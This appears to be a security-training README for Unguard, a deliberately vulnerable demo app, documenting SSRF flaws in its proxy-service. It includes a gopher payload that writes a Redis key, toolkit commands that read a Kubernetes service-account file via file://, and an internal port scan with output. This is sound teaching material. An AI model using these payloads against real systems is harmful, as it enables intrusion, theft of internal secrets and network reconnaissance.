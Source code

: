 # Server-side Request Forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to induce the server-side
application to make requests to an unintended location.

Unguard has a semi-blind and a non-blind SSRF vulnerability in the proxy-service.

**Semi-blind SSRF**

When posting URLs using the URL posting feature, the proxy service will access the given URL unconditionally, so even
if a local URL is given (e.g. `http://localhost/`). Metadata like title/preview image of the accessed URL will be
displayed in Unguard.

**Non-blind SSRF**

When posting images via URL, Unguard will fetch the given URL and display it as a base64 encoded image, regardless if
the given URL was pointing to a valid image. This can be used to leak internal resources1, including files.

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up


## Exploitation

To exploit the non-blind SSRF, put a valid curl URL into the image posting text field and post it.

### w/o Toolkit CLI

If you are not interested in the result of the query, simply posting an image URL will result in the server fetching
your supplied URL, regardless of protocol or if it is a local IP that was specified.

This example URL sets a redis key using the gopher protocol:
* `gopher://unguard-redis:6379/_SET%20hacked%20yes`

![ssrf-set-redis-key](./images/ssrf-set-redis-key.png)

Using the Redis CLI on the Redis pod, we can verify that the key gets set:

![ssrf-set-redis-key-result](./images/ssrf-set-redis-key-result.png)

### With Toolkit CLI

Using the CLI, you can access arbitrary URLs from the internal proxy-service and get their contents.
Make sure to use `ug-exploit login` first, as you need to be logged in to post content.

#### Examples

Using [HTTPbin](https://httpbin.org/#/Request_inspection) to inspect the request headers:

```shell
$ ug-exploit ssrf --target unguard.kube --url https://httpbin.org/headers
```

Leaking a Kubernetes internal file:

```shell
$ ug-exploit ssrf --target unguard.kube --url file:///var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

Doing an internal port scan also abuses SSRF to figure out which services are running on other internal components that
are accessible from the proxy-service:

```shell
$ ug-exploit portscan --ports 80-90 --host unguard-ad-service --target unguard.kube
Accessing unguard-ad-service on port range (80, 90)
[*] unguard-ad-service on port 80 is open
[*] unguard-ad-service on port 81 seems closed
[*] unguard-ad-service on port 82 seems closed
...
```

Run `ug-exploit ssrf --help` for more information.

## Further Details

* [SSRF Explained (Portswigger)](https://portswigger.net/web-security/ssrf)
* [Combine SSRF with CRLF injection to execute arbitrary Redis commands](../crlf-injection/README.md)
